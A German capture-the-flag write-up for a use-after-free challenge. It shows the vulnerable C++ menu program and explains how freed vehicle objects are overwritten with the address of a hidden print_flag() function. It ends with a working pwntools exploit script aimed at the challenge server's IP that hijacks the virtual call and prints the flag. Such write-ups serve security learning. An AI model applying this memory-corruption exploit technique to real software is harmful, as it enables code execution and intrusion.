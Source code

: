 # userafterfree

Mit dieser challenge gab es den source code mit dazu.

Die wichtigsten Daten von dem Source sind wie folgt:

```cpp
class Vehicle{
  private:
      virtual void print_flag(){
          char* args[3] = {"/bin/cat", "./flag.txt", NULL};
          execve(args[0], args, NULL);
      }
  protected:
      int seats;
      string color;
  public:
      virtual void print_stats(){
          cout << "Meine Farbe ist " << color << " und ich habe " << seats << " Sitzplaetze." << endl;
          cout << "-----------------------------------------------" << endl;
      }
  };

/*
...
*/

int main(int argc, char* argv[]){
    Vehicle* bus = new Bus("blau", 35);
    Vehicle* lkw = new LKW("silber", 2);

    size_t len;
    char* data;
    unsigned int op;
    unsigned int len_stdin;
    while(1){
        cout << "1. Allokieren\n2. Ausgeben\n3. Loeschen\n";
        cin >> op;

        if(op == 1){
            //Ich bin ein cpp Experte!
            cin >> len_stdin;
            data = new char[len_stdin];
            read(STDIN_FILENO, data, len_stdin);
            cout << "Daten allokiert" << endl;                        
        } else if(op == 2){
            bus->print_stats();
            lkw->print_stats();
            delete lkw;
        } else if (op == 3){
            delete bus;
            delete lkw;
            cout << "Fahrzeuge geloescht" << endl;
        }
    }
  return 0;
}
```

Vehicle dient hier als Basis-Klasse fuer LKW und Bus.
Und wie man ebenfalls sehen kann, muss man `print_flag()` aufrufen.

Ebenfalls wird man schnell sehen, dass wenn man 3 zuerst aufruft der Speicher von`lkw` als auch `bus` freigegeben wird.
Was man auch sehen kann ist, dass 1 userinput verlangt welchen man potentiell nutzen kann um die Addresse vom freigegebenen Speicher zu ueberschreiben.

Nun schritt 1 war, "finde die Addresse von `print_flag()`" heraus.
Dafuer habe ich mir einfach in meinem disassembler die Speicheraddresse der funktion ausgeben lassen.
![](./userafterfree/userafterfree1.png)

Nun muss nurnoch der die Addresse in Little Endian enkodiert werden und die bytes entsprechend in den 2 sektor geschrieben werden.
Anschliessend die `print_stats()` ausgeben lassen.

Das exploit hierfuer:
```python
from pwn import *

def main():
    payload = "\x78\x3D\x40\x00\x00\x00\x00\x00"
    c = connect('20.126.227.19', 54321)
    #c = process("./ich_mag_busse")
    log.info(c.recvuntil("hen").decode('utf-8'))
    c.sendline('3')
    log.info(c.recvuntil("hen").decode('utf-8'))
    c.sendline('1')
    c.sendline('55')
    c.sendline('')
    log.info(c.recvuntil("hen").decode('utf-8'))
    c.sendline('1')
    c.sendline('55')
    c.sendline(payload)
    log.info(c.recvuntil("hen").decode('utf-8'))
    c.sendline('2')
    log.success(c.recvuntil('}').decode('utf-8'))

main()
```

Und boom! Hier ist die Flagge: `DBH{j3d3r_m46_bu553}`

